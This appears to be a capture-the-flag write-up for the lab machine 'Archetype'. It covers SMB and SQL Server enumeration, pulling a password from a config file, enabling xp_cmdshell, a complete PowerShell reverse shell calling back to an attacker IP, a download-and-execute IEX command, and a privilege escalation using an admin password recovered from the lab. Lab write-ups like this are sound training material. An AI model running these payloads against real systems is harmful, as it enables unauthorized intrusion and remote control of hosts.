 ```yaml
---
title: "Writeup: Archetype"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - archetype
  - update
  - nmap
  - impacket
  - smbclient
  - webshell
  - PE
  - password
---
```


Here are notes from the named target:

1. Enumeration - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

2.Enumeration - It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use smbclient to list available shares
```yaml
smbclient -N -L \\\\10.10.10.27\\ 
```

3. Enumeration - There is a share called backups on the server that is public
```yaml
smbclient -N \\\\10.10.10.27\backups
```
Use Dir and Get to list and then download that file - prod.dtsConfig 

4. There is a dtsConfig file, which is a config file used with SSIS.

use CAT to read it locally

You will see the password for the SWL server

5. Foothold - Use mssqlclient to connect to the SQL server on the box
```yaml
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
provide the password from the config fill viewed in step 4

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

6. Foothold - we have highest level access in the SQL server so we rune xp_cmdshell to do RCE

```yaml
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

7. Reverse Shell - Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.
```yaml
$client = New-Object System.Net.Sockets.TCPClient("Attacker IP",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Next, stand up a mini webserver in order to host the file. We can use Python.

```yaml
python3 -m http.server 80
```

After standing up a netcat listener on port 443, we can use ufw to allow the call backs on port 80 and 443 to our machine. No need to open firewall if we dont have it lovally

```yaml
nc -lvnp 443
```

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```yaml
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://Attacker IP/shell.ps1\");"
```

A shell is received as sql_svc, and we can get the user.txt on their desktop by navigating the remote system as sql account

8. Privilege Esclation - As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```yaml
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  (can also use more command to see contents of file like the user dile

```

That history file shows that the administrator account was used to map a drive to T:\ and what the password was.

From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.

Finally we can use psexec.py from Impacket to connect to the server as Administrator useing the password found in the above step and het the root target hash

 Administrator/Admin account that used the Password: MEGACORP_4dm1n!!




